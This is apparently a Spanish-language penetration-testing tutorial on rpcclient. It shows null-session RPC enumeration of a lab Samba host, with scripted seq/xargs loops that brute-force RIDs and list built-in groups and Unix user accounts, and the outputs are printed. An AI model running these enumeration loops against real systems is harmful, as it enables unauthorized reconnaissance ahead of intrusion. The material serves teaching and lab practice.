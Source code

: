 # ENUMERACION CON RPCCLIENTE
## Enumeración de recursos compartidos RPC

### ¿Qué es un RID?
---

Un Identificador Relativo (RID) es un identificador único (representado en formato hexadecimal) utilizado por Windows para rastrear e identificar objetos. Para explicar cómo encaja esto, veamos los siguientes ejemplos:

El SID del dominio NAME_DOMAIN.LOCAL es: S-1-5-21-1038751438-1834703946-36937684957. Cuando se crea un objeto dentro de un dominio, el número anterior (SID) se combinará con un RID para crear un valor único utilizado para representar el objeto.
### Enumeracion rpcclient
---
Si en la fase enumeración se encontrado expuesto el servicio `rpc-->139`, existe la posibilidad e explotar la vulnerabilidad de nullsession, por lo que esto se puede ejecutar una validación con la herramienta `rpcclient`.
```ruby
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(s3cur1ty3c㉿kali)-[~]
└─$ rpcclient -N -U "" 192.168.200.149
rpcclient $> srvinfo
        VENOM          Wk Sv PrQ Unx NT SNT venom server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03
rpcclient $>
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Como se puede apreciar en la ejecución anterior, una vez accedido al equipo victima mediante rpcclient, aprovechando nullsession, se puede usar el comando `srvinfo`, para extraer información del equipo accedido.
#### Detalles
```ruby 
┌──(s3cur1ty3c㉿kali)-[~]
└─$ rpcclient -N -U "" 192.168.200.149 -c "help" | grep -i SID
       uidtosid         Convert uid to sid
     lookupsids         Convert SIDs to names
    lookupsids3         Convert SIDs to names
lookupsids_level                Convert SIDs to names
    lookupnames         Convert names to SIDs
   lookupnames4         Convert names to SIDs
lookupnames_level               Convert names to SIDs
     lsaenumsid         Enumerate the LSA SIDS
lsaenumprivsaccount             Enumerate the privileges of an SID
lsaenumacctrights               Enumerate the rights of an SID
     lsaaddpriv         Assign a privilege to a SID
     lsadelpriv         Revoke a privilege from a SID
lsaquerytrustdominfo            Query LSA trusted domains info (given a SID)
lsaquerytrustdominfobysid               Query LSA trusted domains info (given a SID)                                                                              
```
> * -N.- nullsession
> * -U.- Usuario.
> * -c.- Flag para emitir un comando
En la ejecución anterior se realizó un filtrado con `SID`, para buscar los comandos que permitan enumerar usuarios, para enumerar los RID, se puede ejecutar el comando lsaenumsid.

```ruby 
┌──(s3cur1ty3c㉿kali)-[~]
└─$ rpcclient -N -U "" 192.168.200.149 -c "lsaenumsid"                              
found 6 SIDs

S-1-5-32-550
S-1-5-32-548
S-1-5-32-551
S-1-5-32-549
S-1-5-32-544
S-1-1-0
```

Para hacer una enumeración se puede utilizar un secuenciador `seq` y el comando `xargs` para enviar la ejecución mediante hilos, y que esto permita agilizar la enumeración.

```ruby 
┌──(s3cur1ty3c㉿kali)-[~]
└─$ seq 1 1000 | xargs -P 50 -I {} rpcclient -N -U "" 192.168.200.149 -c "lookupsids S-1-5-32-{}" | grep -v "unknown"
S-1-5-32-547 BUILTIN\Power Users (4)
S-1-5-32-546 BUILTIN\Guests (4)
S-1-5-32-545 BUILTIN\Users (4)
S-1-5-32-548 BUILTIN\Account Operators (4)
S-1-5-32-544 BUILTIN\Administrators (4)
S-1-5-32-551 BUILTIN\Backup Operators (4)
S-1-5-32-557 BUILTIN\Incoming Forest Trust Builders (4)
S-1-5-32-554 BUILTIN\Pre-Windows 2000 Compatible Access (4)
S-1-5-32-556 BUILTIN\Network Configuration Operators (4)
S-1-5-32-550 BUILTIN\Print Operators (4)
S-1-5-32-552 BUILTIN\Replicator (4)
S-1-5-32-553 BUILTIN\RAS Servers (4)
S-1-5-32-549 BUILTIN\Server Operators (4)
S-1-5-32-555 BUILTIN\Remote Desktop Users (4)
S-1-5-32-558 BUILTIN\Performance Monitor Users (4)
S-1-5-32-560 BUILTIN\Windows Authorization Access Group (4)
S-1-5-32-559 BUILTIN\Performance Log Users (4)
S-1-5-32-561 BUILTIN\Terminal Server License Servers (4)
S-1-5-32-562 BUILTIN\Distributed COM Users (4)
S-1-5-32-569 BUILTIN\Cryptographic Operators (4)
S-1-5-32-573 BUILTIN\Event Log Readers (4)
S-1-5-32-574 BUILTIN\Certificate Service DCOM Access (4)
```

Tambien se puede hacer un descubrimiento a nivel nombres de usuario, y esto permite extaer el RID del usuario, esto se puede ejecutar con el comando `lookupnames`.

```ruby
┌──(s3cur1ty3c㉿kali)-[~]
└─$ rpcclient -N -U "" 192.168.200.149 -c "lookupnames root" 
root S-1-22-1-0 (User: 1)
```

Una vez identificado lo los RID de usuarios del sistema, se puede ejecutar un secuenciador para hacer enumeración de los usuarios.

```ruby
┌──(s3cur1ty3c㉿kali)-[~]
└─$ seq 1 1500 | xargs -P 50 -I {} rpcclient -N -U "" 192.168.200.149 -c "lookupsids S-1-22-1-{}" | grep -oP '.*User\\[a-z].*\s'
S-1-22-1-5 Unix User\games 
S-1-22-1-1 Unix User\daemon 
S-1-22-1-4 Unix User\sync 
S-1-22-1-7 Unix User\lp 
S-1-22-1-6 Unix User\man 
S-1-22-1-13 Unix User\proxy 
S-1-22-1-9 Unix User\news 
S-1-22-1-8 Unix User\mail 
S-1-22-1-2 Unix User\bin 
S-1-22-1-10 Unix User\uucp 
S-1-22-1-3 Unix User\sys 
S-1-22-1-34 Unix User\backup 
S-1-22-1-33 Unix User\www-data 
S-1-22-1-41 Unix User\gnats 
S-1-22-1-38 Unix User\list 
S-1-22-1-39 Unix User\irc 
S-1-22-1-100 Unix User\systemd-network 
S-1-22-1-101 Unix User\systemd-resolve 
S-1-22-1-103 Unix User\messagebus 
S-1-22-1-119 Unix User\pulse 
S-1-22-1-102 Unix User\syslog 
S-1-22-1-111 Unix User\speech-dispatcher 
S-1-22-1-107 Unix User\usbmux 
S-1-22-1-109 Unix User\rtkit 
S-1-22-1-110 Unix User\cups-pk-helper 
S-1-22-1-108 Unix User\dnsmasq 
S-1-22-1-105 Unix User\uuidd 
S-1-22-1-106 Unix User\avahi-autoipd 
S-1-22-1-112 Unix User\whoopsie 
S-1-22-1-114 Unix User\saned 
S-1-22-1-113 Unix User\kernoops 
S-1-22-1-116 Unix User\colord 
S-1-22-1-118 Unix User\geoclue 
S-1-22-1-121 Unix User\gdm 
S-1-22-1-122 Unix User\mysql 
S-1-22-1-117 Unix User\hplip 
S-1-22-1-120 Unix User\gnome-initial-setup 
S-1-22-1-115 Unix User\avahi 
S-1-22-1-123 Unix User\ftp 
S-1-22-1-999 Unix User\vboxadd 
S-1-22-1-1002 Unix User\hostinger 
S-1-22-1-1000 Unix User\nathan 
```
